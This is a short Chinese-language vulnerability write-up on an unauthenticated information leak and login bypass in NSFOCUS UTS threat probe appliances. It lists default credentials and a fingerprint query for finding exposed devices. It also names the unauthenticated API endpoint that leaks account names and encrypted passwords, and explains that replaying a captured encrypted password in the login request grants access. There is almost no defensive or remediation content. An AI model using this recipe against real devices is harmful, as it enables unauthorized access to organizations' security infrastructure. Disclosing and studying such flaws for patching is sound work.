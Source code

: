 # 绿盟 UTS综合威胁探针 信息泄露登陆绕过漏洞

## 漏洞描述

绿盟 UTS综合威胁探针 某个接口未做授权导致未授权漏洞

## 漏洞影响

```
绿盟 UTS综合威胁探针
```

## 网络测绘

```
app="NSFOCUS-UTS综合威胁探针"
```

## 漏洞复现

默认口令

```
admin/Nsfocus@123
auditor/auditor
```

登陆页面

![image-20220525150142447](images/202205251501583.png)

验证POC

```
/webapi/v1/system/accountmanage/account
```

![image-20220525150243440](images/202205251502510.png)

这里出现了登录的账号以及加密的 PASS

登陆时的加密字段抓包修改为获取的就可以登陆系统

![](images/202205251503644.png)

![](images/202205251503926.png)